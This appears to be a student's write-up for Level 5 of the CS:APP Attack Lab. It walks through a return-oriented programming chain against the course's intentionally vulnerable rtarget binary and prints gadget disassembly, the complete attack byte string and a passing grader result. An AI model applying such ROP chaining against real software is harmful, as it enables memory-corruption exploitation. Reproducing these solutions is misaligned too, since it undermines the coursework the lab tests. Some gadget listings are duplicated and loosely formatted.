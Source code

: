 # CS:APP Attacklab Writeup
## Level 5
To attack, we must place the string somewhere in the stack.

However, how can we manage the stack correctly with the highly limited instructions provided?

Firstly, I think about pop 2 time in a row, so that there is space for the trailing 00 of a string.

However, the gadget farm doesn't provide such machine code.

Alternativly, I found we can manage to get an address with a leading 00:

```
00000000004019fc <setval_384>:
  4019fc:	c7 07 81 d1 84 c0    	movl   $0xc084d181,(%rdi)
  401a02:	c3                   	ret
```
Corresponding assembly code:
```
401a00: 84 c0 # testb %al
401a02: c3 # ret
```

However, the gadgets only provides instructions that pop the element on the top of the stack to register `%rax`,
which immediately overlapped the previously saved `%rsp`. The other given instructions involving `popq` is `popq %rsp`, 
obviously, using this instruction in pointless as it corrupts the stack top pointer.


```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret
```
Luckily, in gadget farm, there is a useful functions that provide possibility to perform arithmetic operations: functions `add_xy`.

Using this function, we can alter the saved `%rsp`, and by inserting correct paddings (no op instrcution addresses) into the input string, and finally call `touch3` correctly.

Here are some more related instructions that prepare for the call of `add_xy`:
```
0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	ret
movq %rsp,%rax

401a06

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret
movq %rax,%rdi
4019a2

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret
movq %rax,%rdi
4019a2
```

Combining the codes above, we can devise a possible version of attack string:

```
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 11 11 11
06 1a 40 00 00 00 00 00 /* movq %rsp,%rax */
a2 19 40 00 00 00 00 00 /* movq %rax,%rdi */
d6 19 40 00 00 00 00 00 /* %rax = %rdi + %rsi */
a2 19 40 00 00 00 00 00 /* movq %rax,%rdi */
00 1a 40 00 00 00 00 00 /* nops */
00 1a 40 00 00 00 00 00 /* nops */
cc 19 40 00 00 00 00 00 /* popq */
35 39 62 39 39 37 66 61 /* Target String, (%rsp)+0x30 */
00 1a 40 00 00 00 00 00 /* nops */
00 1a 40 00 00 00 00 00 /* nops */
00 1a 40 00 00 00 00 00 /* nops */
00 1a 40 00 00 00 00 00 /* nops */
00 1a 40 00 00 00 00 00 /* nops */
00 1a 40 00 00 00 00 00 /* nops */
00 1a 40 00 00 00 00 00 /* nops */
FA 18 40 00 00 00 00 00 /* touch3 address */
```

```
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 11 11 11 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 00 1A 40 00 00 00 00 00 00 1A 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 1A 40 00 00 00 00 00 00 1A 40 00 00 00 00 00 00 1A 40 00 00 00 00 00 00 1A 40 00 00 00 00 00 00 1A 40 00 00 00 00 00 00 1A 40 00 00 00 00 00 00 1A 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 
```